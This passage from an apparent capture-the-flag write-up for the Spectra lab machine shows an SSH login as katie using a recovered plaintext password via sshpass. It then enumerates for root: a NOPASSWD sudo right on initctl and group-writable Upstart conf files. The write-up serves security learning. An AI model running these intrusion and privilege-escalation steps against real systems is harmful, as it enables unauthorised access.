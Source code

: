 It worked for katie!

#### Shell

I can connect as katie over SSH:

```

oxdf@parrot$ sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
katie@spectra ~ $

```

And I can get `user.txt`:

```

katie@spectra ~ $ cat user.txt
e89d27fe************************

```

## Shell as root

### Enumeration

katie has `sudo` rights on `initctl`:

```

katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl

```

`initctl` “allows a system administrator to communicate and interact with the Upstart init(8) daemon.” More on that in a minute.

katie is also a member of the `developers` group:

```

katie@spectra ~ $ id    
uid=20142(katie) gid=20142(katie) groups=20142(katie),20143(developers)

```

That provides access to a handful of files that were previously unaccessible:

```

katie@spectra ~ $ find / -type f -group developers 2>/dev/null -ls
   167026      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test2.conf
   167738      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test5.conf
   167742      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test9.conf
   167737      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test4.conf
   167741      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test8.conf
   167740      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test7.conf
   166685      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test.conf
   167739      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test6.conf
   167717      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test3.conf
   167743      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test10.conf
   167736      4 -rw-rw----   1  root     developers      478 Jun 29  2020 /etc/init/test1.conf
   134642      4 -rwxrwxr-x   1  root     developers      251 Jun 29  2020 /srv/nodetest.js

```
